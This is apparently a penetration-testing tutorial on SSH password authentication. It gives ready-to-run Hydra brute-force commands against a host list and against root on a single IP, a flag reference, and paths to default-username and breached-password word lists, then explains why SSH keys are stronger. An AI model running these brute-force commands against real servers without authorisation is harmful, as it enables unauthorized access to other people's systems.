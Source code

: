 SSH servers can be configured to support password authentication. This means that upon connecting, a username and password are required for the user to log in. Unlike key-based authentication, password authentication exposes the server brute force password attacks.

Hydra is a tool for performing brute force attacks on SSH. These attacks can be set to use a word list, a password list, or a host list.

Several hosts with a username and a password list:

```
hydra -L /usr/share/ncrack/default.usr  -P /usr/share/wordlists/rockyou.txt -M hosts.txt ssh
```

One host with a password list against a single user ("root"):

```
hydra -l root -P /usr/share/wordlists/rockyou.txt 10.1.1.1 ssh
```

Hydra flags:

```bash  
-M = (FILE) server list for parallel attacks, one entry per line  
-e nsr = "n" null password, "s" try login as pass, "r" try pass as login  
-s = (PORT) if the service is on a different default port, define it here  
-l or -L = single username login or username from FILE  
-p or -P = single password login or password from FILE  
```

#### Word lists  

The success rate of a brute force attack is only as high as the quality of the word list used. Word lists should be chosen with the basis of information gathered within the enumeration phase. For example, attacking the "root" username on a Windows-based SSH server is less likely to grant access than attacking it on a Linux-based SSH server.

Multi-purpose username lists:

```
/usr/share/ncrack/default.usr  

/usr/share/metasploit-framework/data/wordlists/default_users_for_services_unhash.txt  
```

The most 14344392 popular passwords from a breached password database collection:

```
/usr/share/wordlists/rockyou.txt  
```

### About SSH keys  
  
SSH keys are a more secure way of logging into a server with SSH than a password alone. As we have uncovered earlier, a brute force attack can eventually crack a password; However, it is nearly impossible to decipher SSH keys with brute force alone. 

When generating a key pair, you will end up with two long strings of characters: a public and a private key. You can put the public key on any server and then unlock it by connecting with a client that has the private key. When the two match, the system unlocks without requiring a password. You can boost security even further by encrypting the private key with a password.
